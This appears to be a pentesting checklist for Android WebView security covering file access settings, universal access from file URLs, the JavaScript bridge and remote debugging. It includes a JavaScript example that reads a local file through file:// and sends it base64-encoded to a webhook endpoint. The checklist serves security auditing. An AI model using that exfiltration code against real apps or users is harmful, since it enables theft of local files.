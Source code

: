 # Web View


## File Access in WebViews
- By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the `android.permission.READ_EXTERNAL_STORAGE` permission can read files from external storage using a file URL scheme (file://path/to/file).

- [ ] **Check for `loadURL()` Function**
  - [ ] **Check for `WebView.getSettings().setJavaScriptEnabled(true)`**: This setting allows the execution of JavaScript code within the WebView. WebViews can handle the intent scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "url" that could be exploited to execute cross-site scripting (XSS) attacks.

  > **Note:** This setting alone isn't always sufficient to pose a high security risk. Additional settings need to be checked, such as the following:
- **Deprecated Features: Universal and File Access From URLs**
  - [ ] **Check for `WebView.setAllowUniversalAccessFromFileURLs(true)`**: This setting removes all same-origin policy restrictions and allows the WebView to make requests from file URLs to the web. This can potentially allow an attacker to read local files using JavaScript and send them to an attacker-controlled domain.
  - [ ] **Check for `WebView.setAllowFileAccessFromFileURLs(true)`**: File Access From File URLs > This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.

- **WebViewAssetLoader (Mitigation):**
- The WebViewAssetLoader class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

- **Javascript Bridge**
- A feature is provided by Android that enables JavaScript in a WebView to invoke native Android app functions. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a WebView JavaScript bridge. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

    - Extreme caution is required for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.
  - [ ] **Check for `WebView.addJavascriptInterface("OBJECT_OF_JAVA_CLASS", "OBJECT_OF_JAVASCRIPT_CLASS")`**: This setting creates an interface between JavaScript in the WebView and Java code defined in the interface. From the JavaScript object, public functions from the Java object class can be called.

## Example of JavaScript Code for Data Exfiltration

```javascript
<script>
var xhr = new XMLHttpRequest();
var xhr2 = new XMLHttpRequest();

xhr.onreadystatechange = () => {
    if (xhr.readyState === 4) {
        xhr2.open("POST", "https://webhook.site/your-endpoint");
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send('data=' + btoa(xhr.responseText));
    }
};

xhr.open("GET", "file:///path/to/file", true);
xhr.send();
</script>
```
- [ ] Check for Remote Debugging with `WebView.setWebContentsDebuggingEnabled(true);`
    - If enabled, anyone on the same local network can see , control the WebView and execute JavaScript code.

    - You can test WebView remote debugging using chrome://inspect/#devices in Google Chrome.

## Resources
- [Web view Check list](https://blog.oversecured.com/Android-security-checklist-webview/)
- [Hack Tricks - Web View ] (https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/webview-attacks
)